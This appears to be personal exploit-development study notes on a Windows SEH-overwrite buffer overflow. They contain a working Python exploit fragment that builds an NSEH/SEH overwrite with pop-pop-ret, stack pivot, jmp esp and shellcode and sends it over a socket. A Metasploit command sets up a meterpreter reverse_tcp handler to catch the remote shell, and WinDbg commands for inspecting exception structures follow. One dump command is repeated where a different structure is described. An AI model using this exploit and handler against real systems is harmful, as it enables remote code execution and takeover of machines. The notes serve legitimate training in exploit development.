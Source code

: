 	  inputBuffer = b"\x41" * 124
	  inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
	  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
	  inputBuffer+= b"\x90" * 2
	  inputBuffer+= b"\x66\x81\xc4\x30\x08"   # add sp, 0x830
	  inputBuffer+= b"\xff\xe4"               # jmp esp
	  inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
	  inputBuffer+= shellcode
	
	  header =  b"\x75\x19\xba\xab"
	  header += b"\x03\x00\x00\x00"
	  header += b"\x00\x40\x00\x00"
	  header += pack('<I', len(inputBuffer))
	  header += pack('<I', len(inputBuffer))
	  header += pack('<I', inputBuffer[-1])
	
	  buf = header + inputBuffer 
	
	  print("Sending evil buffer...")
	  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	  s.connect((server, port))
	  s.send(buf)
	  s.close()
	  
	  print("Done!")
	  
	except socket.error:
	  print("Could not connect!")
	
Run again and run windbg with g again and you can catch the shell
	sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.5; set LPORT 443; exploit"
	getuid
	





-----------------------------------------------------------------------------------------------------------------
This is just stuff to get more information about the exception context, don't use it too much I don't think
Run the script and when crash happens inspect eip, then let run with g and see that we then get the EIP written up.

So dump the TEB to check the ntTib value
	dt nt!_TEB

Dump the TEB and see the exceptionList information as the first record
	Dt _NT_TIB
	
Dump the exception registration record
	Dt _EXCEPTION_REGISTRATION_RECORD
	
Dump the context structure
	dt ntdll!_CONTEXT
	
Then dump the exception disposition to view it's structure
	dt ntdll!_CONTEXT
	


![image](https://github.com/user-attachments/assets/b8ffadf2-1d26-4d35-8e63-30e750684fe3)
